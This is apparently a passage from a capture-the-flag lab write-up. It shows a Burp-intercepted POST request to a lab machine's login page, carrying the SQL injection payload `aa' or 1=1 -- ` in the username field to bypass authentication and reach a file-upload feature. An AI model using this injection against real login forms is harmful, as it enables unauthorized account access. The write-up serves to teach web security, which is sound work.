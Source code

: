 ![login form](/media/2020.08/magic_02.png){: .image-process-article-image}

Some mechanism forbid us to put space in our username and password. We fire up
Burp and edit the request using the `Intercept` function so that our post
request look like the following

    :::text
    POST /login.php HTTP/1.1
    Host: 10.10.10.185
    Connection: close
    Cookie: PHPSESSID=aakul5ai43vudv9rqhpfoedqcs

    username=aa' or 1=1 -- &password=a

We are then logged in and we can upload picture using the application.

